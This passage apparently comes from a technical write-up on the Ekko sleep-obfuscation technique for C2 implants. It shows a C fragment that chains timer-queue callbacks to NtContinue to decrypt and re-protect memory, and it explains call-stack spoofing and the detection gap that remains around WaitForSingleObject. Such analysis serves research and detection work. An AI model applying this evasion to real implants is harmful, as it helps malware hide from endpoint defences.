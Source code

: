 ```
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopDelay, 500, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopMemDec, 600, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopFix, 700, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopProtRX, 800, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopSetEvt, 900, 0, WT_EXECUTEINTIMERTHREAD);

```

This will cause the main thread to have its call stack spoofed while it waits for the callbacks to execute.

<img src="../assets/img/Ekko_6.png" height="100%" width="100%" class="mx-auto d-block" unselectable="on"/>

However, it is possible that at the moment the `WaitForSingleObject` call is made and before the callbacks begin executing, to be caught with an unspoofed call stack.
